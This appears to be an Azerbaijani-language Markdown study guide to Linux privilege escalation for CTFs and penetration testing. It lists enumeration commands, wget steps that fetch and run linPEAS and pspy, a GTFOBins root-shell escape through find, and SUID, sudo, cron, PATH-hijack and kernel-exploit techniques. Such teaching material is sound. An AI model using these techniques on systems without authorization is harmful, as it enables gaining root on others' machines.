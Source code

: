 # 🐧 Linux Privilege Escalation – Əhatəli Təhlil və Real-Case Bələdçi

## 📌 Mövzunun İzahı

**Privilege Escalation (Privesc)** – aşağı səlahiyyətli bir istifadəçidən (non-root) sistemdə daha yüksək (root) səlahiyyət əldə etmək texnikalarıdır.

📍 CTF və real-case senarilərində istifadə olunur:
- Shell əldə etdikdən sonra root olmaq üçün
- SUID fayllar, `sudo` icazələri, zəif konfiqurasiya, kernel zəifliklərindən istifadə
- Malware və ya persistence hücumları üçün əhəmiyyətlidir

---

## 🧰 Əsas Alətlər və Komandalar

### 🎯 Sistem Məlumatı
```bash
whoami                 # İstifadəçi kimdir
id                     # UID, GID və qruplar
hostnamectl            # OS və versiya
uname -a               # Kernel versiyası
cat /etc/os-release    # Distribution haqqında info
```

### 🧪 Faydalı Komandalar
```bash
sudo -l                        # Hansi əmrləri sudo ilə icra edə bilər
find / -perm -4000 2>/dev/null   # SUID faylları tap
find / -type f -name "*.sh"     # Scriptləri tap
env                            # Mühit dəyişənləri
ps aux / top                   # Aktiv proseslər
ls -la /tmp /dev/shm           # Yazıla bilən yerlər
```

---

## 🛠️ Ən Güclü Alətlər və İstifadəsi

### 🔎 1. **linPEAS**
- Avtomatik enum üçün əla skript:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### 🧠 2. **pspy**
- Cronjob, timer və background prosesləri izləmək üçün:
```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

### 📍 3. **Linux Exploit Suggester**
```bash
git clone https://github.com/mzet-/linux-exploit-suggester
perl linux-exploit-suggester.pl
```

### 💥 4. **GTFOBins**
- `find`, `less`, `awk` kimi adi alətlərlə shell almaq:
https://gtfobins.github.io

Misal:
```bash
find . -exec /bin/sh \; -quit
```

---

## 🚀 Advanced Texnikalar

### 1. **SUID Exploits**
```bash
find / -perm -u=s -type f 2>/dev/null
```
Məşhur fayllar:
- `/usr/bin/find`, `/usr/bin/python`, `/usr/bin/bash`

GTFOBins nümunəsi:
```bash
/usr/bin/find . -exec /bin/sh \; -quit
```

### 2. **Weak sudo Permissions**
```bash
sudo -l
```

Məşhur təhlükəli icazələr:
- `sudo tar`, `sudo nmap`, `sudo python` → GTFOBins ilə root almaq olur

### 3. **Cronjob Exploit**
- Yazıla bilən script varsa və `pspy` ilə işləyən cron tapılarsa – shell yerləşdirilə bilər

### 4. **PATH Hijacking**
```bash
echo $PATH
# Əgər cronjob və ya sudo scriplər `unqualified` command çağırırsa, PATH-də shell yerləşdir
```

### 5. **Kernel Exploits**
- Zəif kernel versiyası varsa:
```bash
uname -r
```

Misal exploit:
- Dirty Cow (`dirtycow.c`)
- OverlayFS (`overlayfs.sh`)
- Dirty Pipe (Linux 5.8+)

Əlavə analiz üçün:
```bash
searchsploit linux kernel 3.13
```

---

## 📌 Real-case Ssenarilər və CTF-lər

### 🎯 TryHackMe
- “Linux PrivEsc”
- “Kenobi”
- “Overpass”

### 🎯 HackTheBox
- “Lame” – samba exploit + sudo nmap
- “Cronos” – cronjob hijack
- “Bashed” – script injection və yazıla bilən `webadmin.sh`

---

## 🔁 Addım-addım Privesc Workflow

```bash
# 1. Sistem məlumatı:
whoami && id
uname -a
cat /etc/os-release

# 2. SUDO hüquqları:
sudo -l

# 3. SUID faylları:
find / -perm -4000 2>/dev/null

# 4. Yazıla bilən yerlər:
ls -la /tmp
ls -la /var/tmp

# 5. Cronjob analizi:
pspy64 ilə analiz
crontab -l
ls -la /etc/cron*

# 6. PATH hijack üçün:
echo $PATH

# 7. Kernel version + exploit:
uname -r
perl linux-exploit-suggester.pl

# 8. linPEAS və ya manual təhlil:
./linpeas.sh
```

---

## 📚 Ən Yaxşı Resurslar

- 🔗 [GTFOBins](https://gtfobins.github.io)
- 🧪 [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- 🐧 [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- 📘 TryHackMe Room: “Linux PrivEsc”
- 📘 HTB: Cronos, Lame, Optimum, Bashed
- 🎓 YouTube: IppSec videoları (HTB çözüm videoları)

---

## 🧠 Professional Yanaşma

- Hər zaman aşağıdan yuxarıya düşün: UID=1000 → UID=0
- LinPEAS nəticələrini `.html` və `.txt` ilə saxla, təhlil et
- GTFOBins təcrübən olsun: hər SUID fayl = potensial shell
- “Nothing is useless” – tmp, bash_history, config fayllarını araşdır
- Eksploitdən əvvəl backup al və risk analiz et (real sistemlərdə)

